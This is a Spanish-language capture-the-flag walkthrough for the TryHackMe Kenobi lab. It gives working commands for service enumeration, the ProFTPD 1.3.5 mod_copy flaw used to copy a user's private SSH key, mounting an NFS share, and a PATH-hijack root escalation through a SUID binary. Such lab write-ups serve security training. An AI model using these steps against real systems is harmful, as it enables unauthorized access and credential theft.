

# Guía de Explotación - TryHackMe Kenobi

## 1. Reconocimiento

Comenzamos con un escaneo de Nmap para identificar los puertos abiertos y servicios disponibles en la máquina objetivo. Ejecutamos el siguiente comando:

```bash
nmap -sC -p- --open -n --max-rate 1000 -sV IP_MAQUINA_ATACADA
```


El escaneo revela los siguientes puertos abiertos:
- **21/TCP** (FTP)
- **22/TCP** (SSH)
- **80/TCP** (HTTP)
- **111/TCP** (RPC)
- **139/TCP** (SMB)
- **445/TCP** (SMB)
- **2049/TCP** (NFS)
- **37043/TCP** (nlockmgr)
- **44641/TCP** (mountd)
- **46237/TCP** (mountd)
- **52163/TCP** (mountd)

## 2. Enumeración de SMB

Para identificar recursos compartidos en SMB, usamos el siguiente comando de Nmap:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP_MAQUINA_ATACADA
```


Accedemos al recurso compartido `smb` como `anonymous`. Al listar los archivos, encontramos `log.txt`.

```bash
smbget -R smb://IP_MAQUINA_ATACADA/anonymous
```


Descargamos y leemos el archivo:

```bash
cat log.txt
```


Se revela que el usuario `kenobi` tiene claves almacenadas en `/home/kenobi/.ssh/`.

## 3. Análisis de RPC

El escaneo previo muestra que el puerto `111` ejecuta el servicio `rpcbind`.


Podemos verificar monturas en `NFS` usando:

```bash
showmount -e IP_MAQUINA_ATACADA
```

Esto nos muestra que `/var` es un directorio compartido.

## 4. Explotación de FTP

Nos conectamos al servicio FTP en el puerto `21`:

```bash
nc IP_MAQUINA_ATACADA 21
```


Buscamos vulnerabilidades en `ProFTPD 1.3.5`:

```bash
searchsploit proftpd 1.3.5
```


Se identifica una vulnerabilidad en el módulo `mod_copy`, que permite copiar archivos sin autenticación. Utilizamos los siguientes comandos para copiar la clave privada de `kenobi` a un directorio accesible:

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```


Dado que `/var` está montado en `NFS`, podemos acceder a `id_rsa` desde nuestra máquina atacante:

```bash
mkdir /mnt/kenobiNFS
mount IP_MAQUINA_ATACADA:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```


Ahora podemos obtener la clave privada y autenticarnos como `kenobi` por SSH:

```bash
ssh -i id_rsa kenobi@IP_MAQUINA_ATACADA
```


## 5. Escalada de Privilegios

**Nota:**
- **Bit SUID:** Permite ejecutar un binario con los permisos de su propietario.
- **Bit SGID:** Permite ejecutar un binario con los permisos del grupo propietario.

Ejecutamos la búsqueda de binarios con SUID:

```bash
find / -perm -u=s -type f 2>/dev/null
```



Identificamos el binario `menu`, que ofrece tres opciones al ejecutarse:


Sabemos que el binario del menú se ejecuta con el bit SUID, lo que significa que se ejecuta con los permisos del propietario del archivo. Este binario llama a otros programas, lo que significa que estos también se ejecutan con altos privilegios. Uno de estos programas es `curl`. Ahora podemos editar el código que se ejecuta por menú a través de la edición de la definición del binario `curl`. En este caso, usaremos el shell `/bin/sh` para "sobrescribir" `curl` para que se llame al shell en lugar de `curl`.

Primero copiamos el shell `/bin/sh` y lo llamamos `curl`. Luego le damos los permisos correctos y ponemos su ubicación en nuestra ruta. Esto significa que cuando se ejecuta el binario /usr/bin/menu, se utiliza nuestra variable path para encontrar el binario `curl`. Que en realidad es una versión de `/usr/sh`, y como el menú se ejecuta como `root`, también ejecuta nuestro shell como `root`.

```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```


Al seleccionar la opción `1`, obtenemos acceso como `root`:

```bash
id
```


Ahora podemos leer la flag de `root`:

```bash
cat /root/root.txt
```


¡Máquina comprometida con éxito!